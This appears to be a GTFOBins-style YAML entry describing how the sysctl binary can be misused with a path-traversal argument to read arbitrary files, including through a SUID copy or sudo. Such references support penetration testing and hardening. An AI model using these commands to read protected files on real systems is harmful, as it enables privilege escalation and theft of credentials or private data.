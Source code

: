 description: The `-p` argument can also be used in place of `-n`. In both cases though the output might get corrupted, so this might not be suitable to read binary files.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        /usr/sbin/sysctl -n "/../../$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./sysctl -n "/../../$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo sysctl -n "/../../$LFILE"
---
